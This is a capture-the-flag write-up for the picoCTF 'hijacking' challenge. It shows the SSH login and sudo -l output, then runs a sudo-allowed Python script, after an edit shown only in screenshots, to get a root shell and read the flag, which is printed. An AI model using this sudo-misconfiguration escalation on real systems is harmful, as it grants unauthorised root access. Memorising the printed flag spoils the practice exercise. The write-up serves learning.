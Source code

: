 # hijacking 

---

AUTHOR: THEONESTE BYAGUTANGAZA

Description
Getting root access can allow you to read the flag. Luckily there is a python file 
that you might like to play with.
Additional details will be available after launching your challenge instance.

---

Connect top the machine using the provided username and password:

---

```bash
❯ ssh picoctf@saturn.picoctf.net -p 55691

The authenticity of host '[saturn.picoctf.net]:55691 ([64:ff9b::d3b:cbaf]:55691)' can't be established.
ED25519 key fingerprint is SHA256:lAxuAwDPxkngr5Aw0vqCbwmNz/+0ii8HjltkWeRcMjw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:55691' (ED25519) to the list of known hosts.
picoctf@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1016-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

```

let's check out .server.py file

<img width="1440" alt="Screenshot 2024-06-30 at 7 44 31 PM" src="https://github.com/Lynk4/PicoCTF/assets/44930131/6a7354f7-c2c8-4812-90c7-38b653b9442c">

Basically we need to edit the .server.py file to this...

<img width="616" alt="Screenshot 2024-06-30 at 7 45 46 PM" src="https://github.com/Lynk4/PicoCTF/assets/44930131/216991ed-2f86-48b5-b05d-a7ca6433a3a9">

---

after that run it as sudo.
```bash
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
root@challenge:/home/picoctf# ls
root@challenge:/home/picoctf# cd /root
root@challenge:~# ls
root@challenge:~# ls -la
total 16
drwx------ 1 root root   22 Jun 30 14:15 .
drwxr-xr-x 1 root root   63 Jun 30 14:08 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   43 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
-rw------- 1 root root 1164 Jun 30 14:15 .viminfo
root@challenge:~# cat .flag.txt
picoCTF{pYth0nn_libraryH!j@CK!n9_4c188d27}
```

flag:```picoCTF{pYth0nn_libraryH!j@CK!n9_4c188d27}```

---

